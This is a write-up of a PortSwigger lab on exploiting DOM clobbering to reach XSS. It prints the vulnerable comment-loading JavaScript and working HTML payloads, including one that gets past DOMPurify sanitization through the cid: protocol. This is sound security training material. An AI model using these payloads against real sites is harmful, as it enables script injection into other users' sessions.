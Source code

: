 # Exploiting DOM clobbering to enable XSS | Jan 14, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering), you'll learn: Exploiting DOM clobbering to enable XSS! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★☆☆☆☆☆

## Background

This lab contains a DOM-clobbering vulnerability. The comment functionality allows "safe" HTML. To solve this lab, construct an HTML injection that clobbers a variable and uses [XSS](https://portswigger.net/web-security/cross-site-scripting) to call the `alert()` function.

> Note:
>  
> Please note that the intended solution to this lab will only work in Chrome.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-6/images/Pasted%20image%2020230114202512.png)

In the home page, we can view other posts:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-6/images/Pasted%20image%2020230114202532.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-6/images/Pasted%20image%2020230114202542.png)

And we can leave some comments!

**View source page:**
```html
[...]
<h1>Comments</h1>
<span id='user-comments'>
<script src='resources/js/domPurify-2.0.15.js'></script>
<script src='resources/js/loadCommentsWithDomClobbering.js'></script>
<script>loadComments('/post/comment')</script>
</span>
<hr>
<section class="add-comment">
    <h2>Leave a comment</h2>
    <form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded">
        <input required type="hidden" name="csrf" value="kHBcFRVLJKJsiUEmCWZj4eAKbm4AY16B">
        <input required type="hidden" name="postId" value="7">
        <label>Comment:</label>
        <div>HTML is allowed</div>
        <textarea required rows="12" cols="300" name="comment"></textarea>
                <label>Name:</label>
                <input required type="text" name="name">
                <label>Email:</label>
                <input required type="email" name="email">
                <label>Website:</label>
                <input pattern="(http:|https:).+" type="text" name="website">
        <button class="button" type="submit">Post Comment</button>
    </form>
</section>
[...]
```

As you can see, the post page **loaded the DOMPurify** JavaScript library, which is a XSS sanitizer for HTML.

It also **loaded a JavaScript file called `loadCommentsWithDomClobbering.js`**, and calling function `loadComments()` with `/post/comment` argument.

**`loadCommentsWithDomClobbering.js`:**
```js
function loadComments(postCommentPath) {
    let xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            let comments = JSON.parse(this.responseText);
            displayComments(comments);
        }
    };
    xhr.open("GET", postCommentPath + window.location.search);
    xhr.send();

    function escapeHTML(data) {
        return data.replace(/[<>'"]/g, function(c){
            return '&#' + c.charCodeAt(0) + ';';
        })
    }

    function displayComments(comments) {
        let userComments = document.getElementById("user-comments");

        for (let i = 0; i < comments.length; ++i)
        {
            comment = comments[i];
            let commentSection = document.createElement("section");
            commentSection.setAttribute("class", "comment");

            let firstPElement = document.createElement("p");

            let defaultAvatar = window.defaultAvatar || {avatar: '/resources/images/avatarDefault.svg'}
            let avatarImgHTML = '<img class="avatar" src="' + (comment.avatar ? escapeHTML(comment.avatar) : defaultAvatar.avatar) + '">';

            let divImgContainer = document.createElement("div");
            divImgContainer.innerHTML = avatarImgHTML

            if (comment.author) {
                if (comment.website) {
                    let websiteElement = document.createElement("a");
                    websiteElement.setAttribute("id", "author");
                    websiteElement.setAttribute("href", comment.website);
                    firstPElement.appendChild(websiteElement)
                }

                let newInnerHtml = firstPElement.innerHTML + DOMPurify.sanitize(comment.author)
                firstPElement.innerHTML = newInnerHtml
            }

            if (comment.date) {
                let dateObj = new Date(comment.date)
                let month = '' + (dateObj.getMonth() + 1);
                let day = '' + dateObj.getDate();
                let year = dateObj.getFullYear();

                if (month.length < 2)
                    month = '0' + month;
                if (day.length < 2)
                    day = '0' + day;

                dateStr = [day, month, year].join('-');

                let newInnerHtml = firstPElement.innerHTML + " | " + dateStr
                firstPElement.innerHTML = newInnerHtml
            }

            firstPElement.appendChild(divImgContainer);

            commentSection.appendChild(firstPElement);

            if (comment.body) {
                let commentBodyPElement = document.createElement("p");
                commentBodyPElement.innerHTML = DOMPurify.sanitize(comment.body);

                commentSection.appendChild(commentBodyPElement);
            }
            commentSection.appendChild(document.createElement("p"));

            userComments.appendChild(commentSection);
        }
    }
};
```

Basically what this JavaScript does is send a GET request to `/post/comment`, and then stores all the comments to a JSON data. After that, display all comments.

**However, it has an interesting thing:**
```js
let defaultAvatar = window.defaultAvatar || {avatar: '/resources/images/avatarDefault.svg'}
```

**This `defaultAvatar` object is using an bitwise OR operator with a global variable, which is a dangerous pattern!** This can lead to DOM clobbering vulnerability!

If we can **override the orginal `defaultAvatar` object with an anchor element**, we can inject some JavaScript!

**Also, the post comment functionality allows HTML!**

Armed with above information, we can try to override the `defaultAvatar` object:

```html
<a id=defaultAvatar><a id=defaultAvatar name=avatar href='"onerror=alert(document.domain)//'>
```

This will override the `defaultAvatar` object `avatar` attribute's property to `alert(document.domain)//`:

```js
{avatar: '"onerror=alert(document.domain)//'}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-6/images/Pasted%20image%2020230114210654.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-6/images/Pasted%20image%2020230114210717.png)

Then we need to submit a second comment, which will then uses the newly-clobbered global variable. This should smuggle the payload in the `onerror` event handler and triggers the `alert()`.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-6/images/Pasted%20image%2020230114210733.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-6/images/Pasted%20image%2020230114210805.png)

We successfully clobbered the `defaultAvatar` object, **however the `"` is URL encoded. Why?**

**This is because it's sanitized by DOMPurify:**
```js
commentBodyPElement.innerHTML = DOMPurify.sanitize(comment.body);
```

Luckly, we can bypass that.

**In DOMPurify, it allows us to use the `cid:` protocol, which doesn't URL encode double quotes.**

That bein said, **we can inject an HTML encoded double quote that will be decoded at runtime**!

**Final payload:**
```html
<a id=defaultAvatar><a id=defaultAvatar name=avatar href='cid:&quot;onerror=alert(document.domain)//'>
```

**Clobbered the `defaultAvatar` object:**
```js
{avatar: 'cid:"onerror=alert(document.domain)//'}
```

**Let's go to another post to override the `defaultAvatar` object!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-6/images/Pasted%20image%2020230114211042.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-6/images/Pasted%20image%2020230114211119.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-6/images/Pasted%20image%2020230114211132.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-6/images/Pasted%20image%2020230114211215.png)

It worked!

# What we've learned:

1. Exploiting DOM clobbering to enable XSS